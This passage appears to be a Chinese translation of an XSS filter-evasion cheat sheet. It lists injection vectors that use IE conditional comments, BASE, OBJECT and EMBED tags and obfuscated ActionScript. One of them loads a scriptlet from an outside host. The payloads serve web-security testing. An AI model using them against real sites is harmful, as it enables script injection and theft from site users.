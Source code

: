 * * *

## html 条件选择注释块

只能工作在 IE5.0 以及更新版或是使用了 ie 渲染引擎的 Netscape 8.1 。 一些网站认为任何包裹在注释中的内容都是安全的，因此并不会被移除。这将允许我们的 xss 向量。或者系统可能通过添加注释对某些内容去试图无害的渲染它。如我们所见，这有时并不起作用。

```
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
 <![endif]--> 
```

* * *

## BASE 标签

工作 ie 或是使用了安全模块的 Netscape 8.1，你需要使用 "//" 斜体文本去避免 javascript 错误。这需要当前网站使用相对路径（例如 images/image.jpg）而不是绝对路径。如果路径开始用一个斜杠（例如"/images/image_jpg.jpg"），你需要去掉 xss 向量中的一个斜杠（只有在两个斜杠的情况下才会起到注释作用）

```
<BASE HREF="javascript:alert('XSS');//"> 
```

* * *

## OBJECT 标签

如果允许 objects 标签，你也可以注入病毒 payloads 去感染用户。类似于 APPLET 标签。这个链接文件是一个包含 xss 代码的 html 文件。

```
<OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT> 
```

* * *

## 使用一个你可以载入包含有 xss 代码的 flash 文件的 EMBED 标签

点击这个 demo，如果你加入属性 allowScriptAccess="never" and allownetworking="internal"他可以缓解这个风险（谢谢 Jonathan Vanasco 的这个信息）

```
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED> 
```

* * *

## 使用在 flash 中的 ActionScript 可以混淆你的 xss 向量

```
a="get";
b="URL(\"";
c="javascript:";
d="alert('XSS');\")";
eval(a+b+c+d); 
```
